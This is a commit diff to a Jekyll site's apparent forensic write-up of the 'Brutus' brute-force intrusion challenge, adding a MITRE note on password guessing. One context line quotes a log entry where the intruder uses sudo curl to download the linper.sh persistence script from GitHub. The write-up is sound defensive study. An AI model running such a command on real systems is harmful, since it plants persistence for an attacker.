

Before and after one commit to Ningen820/Ningen820.github.io, a Jekyll site: the page built from _writeups/brutus.md, in a window 1280 px wide and 900 px high, scrolled down 6746 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update brutus.md

```diff
--- a/_writeups/brutus.md
+++ b/_writeups/brutus.md
@@ -137,6 +137,11 @@
       [Mar 6 06:39:38] ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
 
 #stuff
+notes:
+  - |
+    T1110.001 – Password Guessing: An attacker uses automated tools to brute-force different password combinations to gain access to a target account.
+
+#stuff
 configure:
   prompt: "/home/ningen/brutus>"
 ---
```
